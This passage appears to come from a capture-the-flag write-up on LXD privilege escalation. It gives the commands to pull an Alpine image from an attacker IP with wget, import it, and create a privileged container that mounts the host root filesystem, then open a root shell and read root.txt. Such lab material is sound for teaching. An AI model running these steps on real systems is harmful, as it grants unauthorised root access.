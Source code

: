 On the host(victim) machine we can download the file “**tar.gz**” using
the command “wget” as follow:

-   First we move into the /tmp folder

-   Then we run the command

 wget 10.10.14.3:8888/alpine-v3.10-x86\_64-20191008\_1227.tar.gz

We will see that our file has been transferred/downloaded.

![](media/image181.png)

Next, we run the following commands to get the root.

First we built the image and can be added as an image to LXD as follows:

``` shell
  ---------------------------------------------------------------------------------------
  lxc image import ./alpine-v3.12-x86\_64-20200728\_1438.tar.gz --alias <aliasName>
  
  lxc image import ./alpine-v3.12-x86\_64-20200728\_1438.tar.gz --alias rootimage
  ---------------------------------------------------------------------------------------
```


In the above command we used “rootimage” as ALIAS but it could ahve been
any name

![](media/image182.png)

We can use the list command to check the list of images
``` shell
  ---------------------------------------------------------------------------------------
  **lxc image list**
  ---------------------------------------------------------------------------------------
```
![](media/image183.png)

The command above will let us have access to the entire filesystem from
within the container.
``` shell
  ---------------------------------------------------------------------------------------
  *lxc init <aliasName> ignite -c security.privileged=true*
  
  **lxc init rootimage ignite -c security.privileged=true**
  
  **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**
  ---------------------------------------------------------------------------------------
```
The next set of commands start the container and drop us into a shell
(as root) on it.
``` shell
  ---------------------------------------------------------------------------------------
  **lxc start ignite**
  
  **lxc exec ignite /bin/sh**
  ---------------------------------------------------------------------------------------
```
We can now navigate to /mnt/root/root/ and read root.txt along with